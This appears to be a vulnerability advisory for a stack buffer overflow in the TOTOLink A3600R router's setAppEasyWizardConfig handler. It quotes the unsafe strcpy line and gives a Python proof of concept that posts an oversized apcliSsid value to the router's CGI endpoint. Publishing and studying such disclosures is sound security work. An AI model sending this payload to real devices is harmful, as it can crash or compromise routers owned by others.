



# TARGET

TOTOLink A3600R Router

# BUG TYPE

Buffer Overflow

# Abstract

The TOTOlink A3600R router, firmware version V5.9c.4959, contains a buffer overflow vulnerability in the `setAppEasyWizardConfig` interface of `/lib/cste_modules/app.so`. The vulnerability occurs because the `apcliSsid` parameter is not properly validated for length, allowing remote attackers to trigger a buffer overflow, potentially leading to arbitrary code execution or denial of service.

# Details

**Environment:**

* Device: TOTOlink 3600R
* Firmware version:  V5.9c.4959
* Manufacturer: [https://www.totolink.net/](https://www.totolink.net/)

**Vulnerability Analysis:**

A stack-based buffer overflow vulnerability exists in the `setAppEasyWizardConfig` function. The function retrieves the `apcliSsid` parameter from HTTP requests via `websGetVar` and copies it into a fixed-size stack buffer without proper bounds checking.

Specifically, the destination buffer `v36` is defined as `_DWORD v36[8]`, corresponding to a 32-byte stack buffer. Under certain execution conditions, the following unsafe operation is performed:

```
strcpy((char *)v36, v19);  // v19 = apcliSsid
```






Because strcpy does not enforce length validation, an attacker can supply an excessively long apcliSsid value to overflow the v36 buffer. This overflow may overwrite adjacent stack memory, leading to memory corruption, process crashes (denial of service), or potentially arbitrary code execution.

 The repeated use of these unchecked operations further increases the attack surface and elevates the overall risk and exploitability of the vulnerability.

# POC

```http
import requests
import json
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
headers = {
    "Host": "192.168.0.1",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36 Edg/143.0.0.0",
    "Accept": "*/*",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Origin": "http://192.168.0.1",
    "Referer": "http://192.168.0.1/internet/ipv6_wan.asp?timestamp=1768535405207",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "SESSION_ID=2:1768535901:2",
    "Connection": "keep-alive",
}

repeat="A" * 5000

data = {
    "topicurl": "setting/setAppEasyWizardConfig",
    "functionType": "2",
    "rootFlag": "2",
    "wifiIdx":"1",
    "apcliSsid": repeat,
}

payload = json.dumps(data)
response = requests.post(url, headers=headers, data=data, timeout=10)
print(response.status_code)
for k, v in response.headers.items():
    print(f"{k}: {v}")
print(response.text)

```




